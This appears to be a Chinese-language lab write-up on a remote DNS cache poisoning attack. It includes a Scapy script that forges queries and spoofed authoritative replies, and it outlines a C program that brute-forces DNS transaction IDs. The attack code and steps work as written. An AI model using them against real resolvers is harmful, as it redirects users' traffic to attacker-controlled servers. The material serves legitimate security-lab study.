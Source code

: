 两个攻击脚本：

伪造请求包和响应包的python程序general\_dns.py：

```python
from scapy.all import *
import string
import random

# random name
name = ''.join(random.sample(string.ascii_letters, 5))+'.example.com' 
print(name)
Qdsec = DNSQR(qname=name)

# query
ip_q  = IP(dst='10.10.10.2',src='10.10.10.1') # dst: dns; src:attacker
udp_q = UDP(dport=53,sport=33333,chksum=0)
dns_q = DNS(id=0xaaaa,qr=0,qdcount=1,ancount=0,nscount=0,arcount=0,qd=Qdsec)
pkt_q= ip_q/udp_q/dns_q

# reply
ip_r = IP(dst='10.10.10.2', src='199.43.135.53', chksum=0)
udp_r = UDP(dport=33333, sport=53, chksum=0)
Anssec = DNSRR(rrname=name, type='A', rdata='1.2.3.4', ttl=259200)
 # The Authority Section
NSsec = DNSRR(rrname='example.com', type='NS', ttl=259200, rdata='ns.ssd.net')
Addsec = DNSRR(rrname='ns.ssd.net', type='A', ttl=259200, rdata='10.10.10.1')
dns_r = DNS(id=0xAAAA, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=1, arcount=1, qd=Qdsec, an=Anssec, ns=NSsec, ar=Addsec)
pkt_r = ip_r/udp_r/dns_r

with open('query.bin','wb')as f:
  f.write(bytes(pkt_q))
with open('reply.bin', 'wb') as f:
  f.write(bytes(pkt_r))

```

其中响应包的id要随机生成，发送从0~ffff号的所有报文来进行DNS欺骗。

用bless查看构造的reply.bin的二进制，找到id的偏移地址：

![](https://i-blog.csdnimg.cn/blog_migrate/9cdfa2939d7c3f8033520c8ce08f2592.png)

偏移量为0x1c，十进制为28。

攻击程序dns\_attack.c的编写逻辑：

1. 每轮循环开始，先运行一次伪造请求包和响应包的python程序；
2. 打开
   `query.bin`
   和
   `reply.bin`
   ，写入缓存区。
3. 发送DNS请求包；
4. 修改
   `reply.bin`
   的dns序列号，从1000~65535(观察了一下，发包速度相当快，可以支持多发一些包)，转换成大端字节序再写入(也可以不转)。并重新计算dns的chksum。
5. 依次发送这些DNS响应包。再回到1重新循环。

